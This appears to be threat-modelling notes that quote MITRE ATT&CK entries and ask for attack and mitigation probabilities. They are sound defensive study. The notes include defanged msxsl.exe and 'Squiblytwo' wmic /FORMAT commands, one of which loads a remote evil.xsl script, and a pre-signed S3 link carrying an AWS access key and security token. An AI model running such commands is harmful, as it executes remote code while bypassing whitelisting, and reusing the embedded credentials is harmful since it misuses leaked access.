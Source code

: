 Probability distribution found by Lina.


### Windows Management Instrumentation 

Probability found by Love (check mitigations).

### XSL Script Processing

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to Trusted Developer Utilities, the Microsoft common line transformation utility binary (msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files.  Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.

Command-line examples:

msxsl.exe customers[.]xml script[.]xsl
msxsl.exe script[.]xsl script[.]xsl
msxsl.exe script[.]jpeg script[.]jpeg
Another variation of this technique, dubbed "Squiblytwo", involves using Windows Management Instrumentation to invoke JScript or VBScript within an XSL file. This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize the /FORMAT switch.

Command-line examples:

Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"

This needs a probability distribution in order to assess the prevalance of the adversary being able to install msxsl.exe on the user session. This doesn't need a Time To Compromise (exploit can be performed in no time)


## Mitigations that need a probability distribution

Find a probability distribution for disableOrRemoveFeatureOrProgram,restrictFileAndDirectoryPermissions, userAccountManagement, exploitProtection, behaviorPreventionOnEndpoint?

### Privileged Account Management

https://user-assets-unbounce-com.s3.amazonaws.com/6766c3ae-2136-11e4-bdef-22000ac464fa/7642bd17-721e-4387-88dc-876a8c9010d2/2018-global-state-of-pam-risk-and-compliance.original.pdf?x-amz-security-token=IQoJb3JpZ2luX2VjEFsaDGV1LWNlbnRyYWwtMSJHMEUCIQDdcZKxpHFwZaxhbnR5hEgg2hKdVuoST3VxzFAgPkh1iAIgSenff7pYC6njzQ9rW%2BnoK4YsrWSNKl4tTiv3Vebx1XYqwgMI1P%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgwwMDI2ODI4MTk5MzMiDOCH7G1kdjOpU5psByqWA%2BF2%2BAtv4oSLMfgZqaPZxu64PRbFAusODwreiOY0cAawqeSC4Rejgd4tHYZDGgHJKJZRuTU86LPmmGs9ljuDxWzs9IagcJcYL60ShALgCPrabaVJDRLx1DMpxWWgBkZhPplC8ydWmZf0e985euigl799d158qXC7MtAyQ%2FrrfZNNAuI17gcE%2Bg9k%2FQLyFWAajcyagi4IiucuRjxRAOcBjboF3whDBUYHqL4jKzY8MeAniBj0dkqCdSnSMA4v9B9C0br%2FPnO5zC3mZtY3tVe%2FKg%2FjjGw6GbfHArv9YQilbMRb%2FubUlIjwDsecHeE2dz52KBJjZi0ov0mq36loeekyVXbrV7m%2FKj3D4sxLhauLpQA4NIYqECf1%2FBCwMrD4W0%2BL80lnbkSNV%2B%2FGeu8rWX2gxQWj5CGJESpUWyNYsTO8lWjrmWlxB4yonaM41Q0YNApQy91RSxLouPCC0L7dbICZ4I%2FHq2X8RS9o8Dxb%2BBk%2FmgAPnXdCYZptN4abdUI2E0wKbQSYRyPhN2DPbMEAzNsnfHfcGEvRR2ownuyn9wU67AFa3PqmZGBsOgFaKDhJJGKJpWFmZRaRhMSKzmH04cwas0cVFsLOvnDBUlaLjrJUDa9tV6HMaJ3DvBAD3plIgP1HAnJAGG0aN6LlMTRpwJpKHI1dY2ZEtr9tSPnS7meMq%2Bn1q0EjswGHh1U6uoIut2Og9leHd%2Bwzo%2F1elq0DxG%2BK0GTYG7j%2BomOsjVT%2F6QKcCHif1Gs20Qkp3H79gbiRSzPa%2B4DfaywVHH%2Fo2SxtR8jk9ywU2jnTNiyb3x1RzhHsVxh1Y20fViU56eo2Hyz3xz49sSXMgmO7knbSWaUPvDmP2SBtam%2FYaoZGeYYmhA%3D%3D&AWSAccessKeyId=ASIAQBH7ISVOQ2GD65JS&Expires=1592397675&Signature=t0z%2FwXGG6FQgxYvB1em8gGpK928%3D
https://lp.alpha-gen.co.uk/2018-global-state-of-pam/
According to this report 70% of companies don't have a proper Privileged Account Management.
